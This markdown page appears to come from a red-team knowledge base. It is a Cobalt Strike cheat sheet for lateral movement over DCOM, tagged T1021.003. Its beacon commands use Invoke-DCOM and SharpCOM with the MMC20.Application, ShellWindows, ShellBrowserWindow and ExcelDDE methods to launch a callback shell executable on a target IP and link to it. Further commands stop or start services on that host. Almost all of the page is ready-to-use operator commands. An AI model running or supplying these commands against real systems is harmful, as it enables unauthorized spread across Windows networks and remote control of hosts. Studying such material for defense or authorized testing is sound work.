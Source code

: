 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - lateral-movement
  - T1021-003
  - network-protocols
  - msrpc
  - cobalt-strike
  - windows
---
```

# Cobalt Strike

## 01 - Spawn Callback Shell

### 1.1 - Invoke-DCOM

Spawn the callback shell.

```
beacon> powershell-import Invoke-DCOM.ps1

beacon> <powershell | powerpick> Invoke-DCOM -ComputerName <IP> -Method <MMC20.Application | ShellWindows | ShellBrowserWindow | ExcelDDE> -Command C:\path\to\remote\shell.exe

beacon> link <IP>
```

Modify the service.

```
beacon> <powershell | powerpick> Invoke-DCOM -ComputerName <IP> -Method <ServiceCheck | MinimizeAll | ServiceStop | ServiceStart> "<service_name>"
```

### 1.2 - SharpCOM

```
beacon> execute-assembly /path/to/local/SharpCOM.exe --Method <ShellWindows | MMC | ShellBrowserWindow | ExcelDDE> --ComputerName <target_IP> --Command "C:\path\to\remote\shell.exe"
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x07 - Lateral Movement/Windows/02 - RPC/04 - DCOM/Offensive Tools/Scripts]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x07 - Lateral Movement/Windows/02 - RPC/04 - DCOM/Offensive Tools/Binaries]]